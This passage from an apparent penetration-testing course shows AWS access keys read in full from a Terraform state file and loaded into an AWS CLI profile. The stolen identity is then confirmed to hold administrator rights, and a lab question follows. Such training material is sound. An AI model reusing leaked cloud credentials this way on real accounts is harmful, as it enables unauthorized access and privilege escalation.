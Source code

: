 ```
077              "id": "AKIAUBHUBEGIGZN3IP46",
...
080              "secret": "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",
...
084            },
...
090          },
...
```

> Listing 59 - Reviewing State File - Keys

As we scroll down in the file, we start to discover attributes for the created users, including their _ID_ and _Secret_. Since we found that _Goran.B_ might have _administrator_ access, let's use **aws** to **configure** a new **profile**. We'll call this profile _goran.b_ and provide the the _ID_, _Key_, and _region_.

```
kali@kali:~$ aws configure --profile=goran.b                                                 
AWS Access Key ID [None]: AKIAUBHUBEGIGZN3IP46
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-1
Default output format [None]: 

```

> Listing 60 - Configuring Goran.B Profile Using AWS CLI

Next, let's try to list the attached user policies in order to confirm that this user is indeed an _administrator_. We'll do this with the **iam** command and the **list-attached-user-policies** option while providing the **user-name**.

```
kali@kali:~$ aws --profile=goran.b iam list-attached-user-policies --user-name goran.b
{
    "AttachedPolicies": [
        {
            "PolicyName": "AdministratorAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/AdministratorAccess"
        }
    ]
}
```

> Listing 61 - Listing Attached User Policies With Goran.B Profile

Excellent! We have successfully escalated to _administrator_ in the Cloud account for this environment!

#### Labs

1. Discover the flag in the _ec2_ instance tag.

Answer

## 5.6. Wrapping Up
